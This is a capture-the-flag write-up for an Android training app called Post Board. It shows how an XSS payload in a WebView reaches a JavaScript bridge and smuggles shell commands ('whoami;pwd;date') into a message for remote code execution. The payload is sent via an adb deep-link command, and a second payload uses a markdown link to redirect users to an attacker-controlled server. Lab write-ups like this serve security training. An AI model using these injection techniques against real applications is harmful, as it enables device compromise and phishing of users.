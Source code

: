 # Writeup for Post Board challenge.

>here's how to use the scripts only as proof of concept.
Check the full Writeup at my blog --> [Post Board](https://blog.parad0x.vip/blog/2024/10/01/PostBoard1.html)
---

## Objective
This challenge is designed to delve into the complexities of Android's WebView component, exploiting a Cross-Site Scripting (XSS) vulnerability to achieve Remote Code Execution (RCE). It's a great opportunity to engage with Android application security focusing on WebView security issues.

## RCE
To achieve the RCE first we need to create a payload
using the XSS vulnerability and encode in base64.

```sh
echo "<img src=\"x\" \
onerror=\"WebAppInterface.postCowsayMessage('Moooo;whoami;pwd;date') \
\">"|base64
```

Then send it through the deep link.

```sh
adb shell am start -a android.intent.action.VIEW \ 
-n com.mobilehackinglab.postboard/.MainActivity -d \ 
"postboard://postmessage/PGltZyBzcmM9IngiIG9uZXJyb3I9IldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgnTW9vb287d2hvYW1pO3B3ZDtkYXRlJykgIj4K"
```


## Bonus XSS on Chrome Client 
Sending a malicious link to the application it's possible to redirect the victim to my evil website. The app will convert my markdown in a clickable link then my evil website will load.

Payload: `[Innocent Link](http://{YOUR_SERVER_IP:PORT}/)` 

## Video

<div style="padding:51.56% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/1011473045?badge=0&amp;autopause=0&amp;player_id=0&amp;app_id=58479" frameborder="0" allow="autoplay; fullscreen; picture-in-picture; clipboard-write" style="position:absolute;top:0;left:0;width:100%;height:100%;" title="postboard"></iframe></div><script src="https://player.vimeo.com/api/player.js"></script>

## Conclusion

On my blog, I'll cover step by step to achieve the RCE and exploit the XSS weakness.
